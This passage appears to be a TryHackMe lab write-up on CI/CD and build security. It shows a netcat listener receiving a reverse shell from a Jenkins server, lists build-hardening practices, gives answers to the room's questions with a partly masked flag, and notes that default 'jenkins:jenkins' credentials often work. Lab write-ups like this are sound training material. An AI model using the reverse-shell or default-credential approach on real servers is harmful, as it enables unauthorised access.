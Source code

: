 Bingo ! The jenkins server executed our code & we got our shell  🙌

```bash
┌──(root㉿kali)-[/home/kali/thm/CI_CD and Build Security]
└─# nc -lvnp 8081
listening on [any] 8081 ...
connect to [10.50.75.24] from (UNKNOWN) [10.200.94.171] 36530
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),119(netdev),120(lxd)
```

### Protecting the build process

Protecting the build process is key to ensuring vulnerabilities are avoided at the start of the code lifecycle. An insecure build can enable living-off-the-land attacks, supply chain attacks and a lot of trouble that is difficult to detect later in the pipeline. Here are some best practices to follow, which knit together what has been discussed in the previous tasks:

- **Isolation and Containerisation:** Run builds in isolated containers to prevent interference and maintain consistency.
- **Least Privilege:** Grant minimal permissions to CI/CD tools, restricting unnecessary access to sensitive resources.
- **Secret Management:** Use CI/CD tools' secret management features to store and inject sensitive data securely.
- **Immutable Artifacts:** Store build artifacts in a secure registry to prevent tampering and enable easy auditing.
- **Dependency Scanning:** Integrate dependency scanning to identify and address vulnerabilities in third-party libraries.
- **Pipeline as Code:** Define CI/CD pipelines as code, version-controlled alongside the source code.
- **Regular Updates:** Keep CI/CD tools and dependencies up to date to address known vulnerabilities.
- **Logging and Monitoring:** Monitor build logs for unusual activities and integrate them with security monitoring systems.

> 1. Where should you store artefacts to prevent tampering? - `secure registry`
> 2. What mechanism should you always use to store and inject sensitive data? - `secret management`
> 3. What attack can malicious actors perform to inject malicious code in the build process? - `Dependency Confusion`
> 4. Authenticate to Mother and follow the process to claim Flag 1. What is Flag 1? - `THM{77**********31c3}`

## Task 7 : Securing the Build Server

The next point of attack is the build server itself! If an attacker can gain access or control of our build server, this places them in quite a privileged position to compromise both the pipeline and the build.

### Build Server Basics -

The simplest point to start is with access. Even in modern times, a common attack against build infrastructure is to _guess credentials and gain access_. Whenever a Jenkins server is available in oopen internet, suprisingly  many times `jenkins:jenkins` would do the trick!


[kali]: runner-kali